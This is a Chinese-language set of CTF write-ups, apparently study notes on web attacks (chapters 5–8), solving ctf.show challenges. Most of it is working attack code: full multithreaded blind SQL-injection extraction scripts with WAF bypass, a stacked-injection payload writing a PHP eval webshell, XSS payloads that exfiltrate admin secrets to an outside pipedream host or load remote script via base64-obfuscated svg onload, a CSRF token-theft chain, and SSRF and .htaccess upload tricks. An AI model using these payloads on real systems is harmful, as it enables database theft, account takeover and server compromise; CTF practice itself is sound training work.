# 第五章 SQL注入漏洞与防护

## 联合查询注入

随便打开一个文件并检测，发现id为注入点

测试 

```sql
?id=-1%20union%20select%201,2,3;
```

查询所有的表

```sql
?id=-1%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database();
```


查询users表的所有列名

```sql
?id=-1%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27and%20table_schema=database();
```


查询users表的信息

```sql
?id=-1%20union%20select%201,2,group_concat(id,%27-%27,username,%27-%27,password)%20from%20users;
```


CTF{admin_secret_password}

## 布尔盲注爆破



稳定脚本

```
# exp.py
import requests
import string

URL = "http://localhost:5055/login.php"

FAIL = "script" # 登录失败时的响应头

def send_payload(payload):
    data = {
        "username": payload,
        "password": "anything"
    }
    resp = requests.post(URL, data=data, allow_redirects=False)
    return resp.text.find(FAIL) == -1

def get_length(payload_template, min_len=1, max_len=100):
    for l in range(min_len, max_len):
        payload = payload_template.format(l)
        if send_payload(payload):
            return l
    return None

def get_string(payload_template, length):
    result = ""
    chars = string.ascii_letters + string.digits + "_{}@.-,! "
    for i in range(1, length+1):
        for c in chars:
            payload = payload_template.format(i, c)
            if send_payload(payload):
                result += c
                print(f"\r{result}", end="", flush=True)
                break
    print()
    return result

def get_table_names():
    print("[*] Getting table name length...")
    length = get_length("admin' and (select length(group_concat(table_name)) from information_schema.tables where table_schema=database())={};#---")
    print(f"[*] Table names length: {length}")

    print("[*] Getting table names...")
    names = get_string("admin' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))=ascii('{}');#---", length)
    print(f"[*] Table names: {names.split(',')}")
    return names.split(',')

def get_column_names(table):
    print(f"[*] Getting column names length for {table}...")
    length = get_length(f"admin' and (select length(group_concat(column_name)) from information_schema.columns where table_name='{table}')={{}};#---")
    print(f"[*] Column names length: {length}")

    print(f"[*] Getting column names for {table}...")
    names = get_string(f"admin' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='{table}'),{{}},1))=ascii('{{}}');#---", length)
    print(f"[*] Column names: {names}")
    return names.split(',')

def get_field(table, column, row=0):
    print(f"[*] Getting length of {column} in {table} row {row}...")
    length = get_length(f"admin' and (select length({column}) from {table} limit {row},1)={{}};#---", max_len=256)
    print(f"[*] Field length: {length}")

    if length is None:
        print(f"[!] Cannot determine length for {column} in {table} row {row}, skipping.")
        return ""

    print(f"[*] Getting value of {column} in {table} row {row}...")
    value = get_string(f"admin' and ascii(substr((select {column} from {table} limit {row},1),{{}},1))=ascii('{{}}');#---", length)
    print(f"[*] Value: {value}")
    return value

if __name__ == "__main__":
    # 1. 获取所有表名
    tables = get_table_names()

    # 2. 获取每个表的列名
    for table in tables:
        columns = get_column_names(table)
        # 3. 获取每个表的每个字段内容
        for col in columns:
            for row in range(2): #获取前2行
                get_field(table, col, row)
```

快速脚本

```
import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor, as_completed
import time

# --- 基础配置 ---
URL = "https://51707d51-abc7-40e8-a026-9d99fe149358.challenge.ctf.show/login.php"
FAIL_STR = "script"  # 登录失败特征字符串
MAX_THREADS = 30  # 并发线程数
# ----------------

# 环境初始化：忽略 SSL 警告并建立持久连接
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
session = requests.Session()


def send_payload(payload):
    """核心请求函数，包含 SSL 忽略逻辑"""
    data = {"username": payload, "password": "any"}
    try:
        # verify=False 解决证书验证失败报错
        resp = session.post(URL, data=data, verify=False, timeout=5)
        return FAIL_STR not in resp.text
    except:
        return False


def get_length(sql_template, max_len=100):
    """探测目标字符串的长度"""
    for l in range(1, max_len):
        if send_payload(sql_template.format(l)):
            return l
    return 0


def guess_one_char(sql_template, index):
    """利用二分查找探测单个字符的 ASCII 码"""
    low, high = 32, 126
    while low <= high:
        mid = (low + high) // 2
        # 使用 > 进行二分判定
        if send_payload(sql_template.format(index, mid)):
            low = mid + 1
        else:
            high = mid - 1
    return index, chr(low)


def get_string_threaded(sql_template, length):
    """多线程调度提取完整字符串"""
    if length <= 0: return ""
    final_result = [''] * (length + 1)
    with ThreadPoolExecutor(max_workers=MAX_THREADS) as executor:
        futures = {executor.submit(guess_one_char, sql_template, i): i for i in range(1, length + 1)}
        for future in as_completed(futures):
            idx, char = future.result()
            final_result[idx] = char
            print(f"\r[*] 实时进度: {''.join(final_result)}", end="", flush=True)
    print()
    return "".join(final_result[1:])


if __name__ == "__main__":
    total_start = time.time()

    # 第一阶段：确认数据库环境
    print("--- 步骤 1: 获取数据库名 ---")
    db_len_sql = "admin' and (select length(database()))={};# "
    db_name_sql = "admin' and ascii(substr(database(),{},1)) > {};# "
    db_len = get_length(db_len_sql)
    db_name = get_string_threaded(db_name_sql, db_len)
    print(f"[+] 数据库名: {db_name}")

    # 第二阶段：获取所有表名
    print("\n--- 步骤 2: 获取表名 ---")
    table_len_sql = "admin' and (select length(group_concat(table_name)) from information_schema.tables where table_schema=database())={};# "
    table_name_sql = "admin' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1)) > {};# "
    t_len = get_length(table_len_sql, max_len=500)
    tables_str = get_string_threaded(table_name_sql, t_len)
    table_list = tables_str.split(',')
    print(f"[+] 发现表: {table_list}")

    # 第三阶段：深度挖掘（重点看 users 或含有 flag 字样的表）
    for target_table in table_list:
        if target_table == 'pages': continue  # 跳过不相关的表

        print(f"\n--- 步骤 3: 挖掘表 [{target_table}] ---")

        # 获取列名
        col_len_sql = f"admin' and (select length(group_concat(column_name)) from information_schema.columns where table_name='{target_table}')={{}};# "
        col_name_sql = f"admin' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='{target_table}'),{{}},1)) > {{}};# "
        c_len = get_length(col_len_sql)
        columns_str = get_string_threaded(col_name_sql, c_len)
        column_list = columns_str.split(',')
        print(f"[+] 发现列: {column_list}")

        # 获取每一列的第一行数据（通常 Flag 就在这里）
        for col in column_list:
            print(f"[*] 正在提取 [{target_table}.{col}] 的数据...")
            data_len_sql = f"admin' and (select length({col}) from {target_table} limit 0,1)={{}};# "
            data_val_sql = f"admin' and ascii(substr((select {col} from {target_table} limit 0,1),{{}},1)) > {{}};# "

            d_len = get_length(data_len_sql, max_len=200)
            if d_len:
                data_val = get_string_threaded(data_val_sql, d_len)
                print(f"[✔] 结果 -> {data_val}")

    print(f"\n[*] 全部任务已完成，总耗时: {time.time() - total_start:.2f} 秒")
```

CTF{bool_sql_injection_is_fun}

## 堆叠注入写Shell

这里我们通过\转移'使得`username` 的内容是 `admin' AND password=`

```sql
password=;select 0x3c3f706870206576616c28245f504f53545b315d293b3f3e into outfile "/var/www/html/1.php";%23 &username=admin\
```

1=system("ls");


CTF{sql_injection_is_fun}

## WAF绕过

一样，将空格换成/**/注释绕过

```
import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor, as_completed
import time

# --- 基础配置 ---
URL = "https://a4e5b7fa-5719-403e-abb9-64af82932a7b.challenge.ctf.show/login.php"
FAIL_STR = "script"  # 登录失败特征字符串
MAX_THREADS = 30  # 并发线程数

# 替换策略：将空格替换为 /**/
# 如果 /**/ 不行，可以尝试 %0a, %0b, %0c, %a0 等
SPACE_REPLACE = "/**/"
# ----------------

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
session = requests.Session()


def send_payload(payload):
    """核心请求函数，处理空格绕过逻辑"""
    # 自动将 payload 中的空格转换为注释符
    processed_payload = payload.replace(" ", SPACE_REPLACE)

    data = {"username": processed_payload, "password": "any"}
    try:
        resp = session.post(URL, data=data, verify=False, timeout=5)
        return FAIL_STR not in resp.text
    except:
        return False


def get_length(sql_template, max_len=100):
    """探测目标字符串的长度"""
    for l in range(1, max_len):
        # 这里的模板依然写空格，send_payload 会自动处理
        if send_payload(sql_template.format(l)):
            return l
    return 0


def guess_one_char(sql_template, index):
    """利用二分查找探测单个字符的 ASCII 码"""
    low, high = 32, 126
    while low <= high:
        mid = (low + high) // 2
        if send_payload(sql_template.format(index, mid)):
            low = mid + 1
        else:
            high = mid - 1
    return index, chr(low)


def get_string_threaded(sql_template, length):
    """多线程调度提取完整字符串"""
    if length <= 0: return ""
    final_result = [''] * (length + 1)
    with ThreadPoolExecutor(max_workers=MAX_THREADS) as executor:
        futures = {executor.submit(guess_one_char, sql_template, i): i for i in range(1, length + 1)}
        for future in as_completed(futures):
            idx, char = future.result()
            final_result[idx] = char
            print(f"\r[*] 实时进度: {''.join(final_result)}", end="", flush=True)
    print()
    return "".join(final_result[1:])


if __name__ == "__main__":
    total_start = time.time()

    # 第一阶段：数据库名
    print("--- 步骤 1: 获取数据库名 ---")
    db_len_sql = "admin' and (select length(database()))={};#"
    db_name_sql = "admin' and ascii(substr(database(),{},1))>{};#"
    db_len = get_length(db_len_sql)
    print(f"[*] 长度: {db_len}")
    db_name = get_string_threaded(db_name_sql, db_len)
    print(f"[+] 数据库名: {db_name}")

    # 第二阶段：表名
    print("\n--- 步骤 2: 获取表名 ---")
    # 注意：information_schema.tables 这种中间没有空格，不需要处理
    table_len_sql = "admin' and (select length(group_concat(table_name)) from information_schema.tables where table_schema=database())={};#"
    table_name_sql = "admin' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{};#"
    t_len = get_length(table_len_sql, max_len=500)
    tables_str = get_string_threaded(table_name_sql, t_len)
    table_list = tables_str.split(',')
    print(f"[+] 发现表: {table_list}")

    # 第三阶段：深度挖掘（重点关注包含 flag 关键词的表）
    for target_table in table_list:
        # 这里建议根据实际题目修改，或者干脆注释掉下面这行来跑所有的表
        # if 'flag' not in target_table.lower(): continue

        print(f"\n--- 步骤 3: 正在挖掘表 [{target_table}] ---")

        # 1. 获取列名 (应对空格过滤: /**/ , 应对逗号过滤: 使用 join 或其它方式)
        # 这里使用了 group_concat(column_name)
        col_len_sql = f"admin' and (select(length(group_concat(column_name)))from(information_schema.columns)where(table_name)='{target_table}')={{}};#"
        col_name_sql = f"admin' and ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='{target_table}'),{{}},1))>{{}};#"

        c_len = get_length(col_len_sql)
        if c_len == 0:
            print(f"[!] 无法获取表 [{target_table}] 的列名，可能存在其它过滤。")
            continue

        columns_str = get_string_threaded(col_name_sql, c_len)
        column_list = columns_str.split(',')
        print(f"[+] 发现列: {column_list}")

        # 2. 提取数据
        for col in column_list:
            print(f"[*] 正在提取 [{target_table}.{col}] 的数据...")

            # 应对逗号过滤：LIMIT 1 OFFSET 0 替代 LIMIT 0,1
            # 应对逗号过滤：SUBSTR(str FROM 1 FOR 1) 替代 SUBSTR(str,1,1)
            # 注意：substr() 中的 FROM/FOR 语法在某些 SQL 注入环境下更稳健

            data_len_sql = f"admin' and (select(length({col}))from({target_table})limit 1 offset 0)={{}};#"

            # 如果逗号完全被禁，substr 的模板需要改为：
            # ascii(substr((select({col})from({target_table})limit 1 offset 0)from {} for 1)) > {}
            data_val_sql = f"admin' and ascii(substr((select({col})from({target_table})limit 1 offset 0),{{}},1))>{{}};#"

            d_len = get_length(data_len_sql, max_len=200)
            if d_len:
                data_val = get_string_threaded(data_val_sql, d_len)
                print(f"[✔] 结果 -> {data_val}")
```


CTF{bool_sql_injection_bypass_is_fun}

# 第六章 XSS攻击与防御

## 混合型XSS

先注册一个账号登录，测试发现设置个性签名处存在xss漏洞

我们在/profile路由可以发现账密，所以我们只需在管理员点击后访问/profile路由，即可得到管理员账密


先保存再点管理员签名



这里使用XSS平台 https://xssaq.com/ 


```
(async () => {
  try {
    const res = await fetch('/profile', { credentials: 'include', method: 'GET' });
    const txt = await res.text();
    const secret = txt.split('id="upass"')[1].substr(48,45);
    const headers = new Headers()
    headers.append("Content-Type", "application/json")
    const body = {
       "test": secret
    }
     const options = {
          method: "POST",
          headers,
          mode: "cors",
          body: JSON.stringify(body),
      }
      fetch("https://eo1l5fizoguf4j8.m.pipedream.net", options)
      } catch (e) {
          console.error(e);
      }            
})();
```

使用 https://pipedream.com/ 进行HTTP带外



得到flag

ctfshow{532a7097-527b-4b7b-ac6a-0b5bc7dce055}

## 编码绕过XSS过滤

和上一个基本相同，但是对script和/进行了过滤

我们用编写的payload绕过



```
<svg onload=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPScvL3hzLnBlL21HZSc7'))>
```


ctfshow{39311769-5d8b-4f7b-9655-1ee5a4dd6f27}

# 第七章 请求伪造漏洞（CSRF/SSRF）

## 请求伪造漏洞_CSRF

```
<div class="mb-3">
                        <label class="form-label">用户名</label>
                        <div class="form-control bg-transparent text-light">test</div>
                    </div>
                    <div class="mb-3">
                        <label class="form-label">密码</label>
                        <div id="upass" class="form-control bg-transparent text-light">******</div>
                    </div>
```

这里对密码进行了加密，所以不能通过http外带方式得到管理员账密

分析功能，发现多了个修改密码的路由

```
<form method="post" class="mt-3">

    <div class="mb-3">
        <label class="form-label">用户名</label>
        <input class="form-control form-control-lg bg-transparent text-light" name="username" disabled value="test">
    </div>
    <div class="mb-3">
        <label class="form-label">新密码</label>
        <input type="password" class="form-control form-control-lg bg-transparent text-light" name="password" required>
        <input type="hidden" name="csrf_token" value="3g4i9_yQLKQaoO_LRR8399tux22pg2S7E-WNWJVuPN4">
    </div>
    <div class="d-flex justify-content-between align-items-center">
        <button class="btn btn-neon btn-lg">修改</button>
        <a class="text-decoration-none text-info" href="/login">已有账号？登录</a>
    </div>
</form>
```

存在csrf接口验证

我们通过xss得到管理员访问同源地址：127.0.0.1:4476

我们尝试先不携带csrf_token看看后端是否有验证

```
// 构造表单数据
                    const formData = new URLSearchParams();
                    formData.append('password', '123456');
                    fetch('http://127.0.0.1:4476/modify', {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/x-www-form-urlencoded',
                        },
                        body: formData,
                        credentials: 'include'  // 重要：自动携带Cookie
                     }).then(response => {
                     
                     }).catch(error => {
                        });
```

我们尝试登录，发现无法利用


我们进行二次xss，获取csrf_token，并发给攻击网址

```
fetch('http://127.0.0.1:4476/modify', {
    credentials: 'include'  // 携带Cookie
})
.then(r => r.text())
.then(html => {
    // 提取Token
    const tokenMatch = html.match(/name="csrf_token" value="([^"]*)"/);
    if (tokenMatch && tokenMatch[1]) {
        const token = tokenMatch[1];
        const leakUrl = `https://23a82889-f2cd-481f-ac4e-f508f661fb47.challenge.ctf.show/?token=${token}&target=http://127.0.0.1:4476/modify`;
        window.location.href = leakUrl;  
    }
});
```

攻击网站主要代码

```
   <form id="csrfForm" action="{{ target }}" method="POST">
            <input type="hidden" name="password" value="123456">
            <input type="hidden" name="csrf_token" value="{{ token }}">
   </form>


    <script>
        setTimeout(() => {
            document.getElementById('csrfForm').submit();
        }, 1000);
    </script>
```


成功修改管理员密码



ctfshow{d9ddfedb-db4e-4851-8246-4f1fe57e8e72}

## 最简单的SSRF

strlen($host) <= 5



url=http://0/flag.php

## SSRF打Redis

工具生成payload




flag在 /flaaag

ctfshow{10de5bdd-f16b-4b48-bea8-63a28ece6d20}

# 第八章 文件上传攻击与解析漏洞

## 绕过MIME检测上传webshell

这里对Content-Type进行校验


得到flag



ctfshow{10765e65-dbd4-4316-a487-ed64b4b02109}

## htaccess攻击

我们上传.hatccess文件

```JavaScript
<FilesMatch "1.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

然后再上传木马



蚁剑连接得到flag

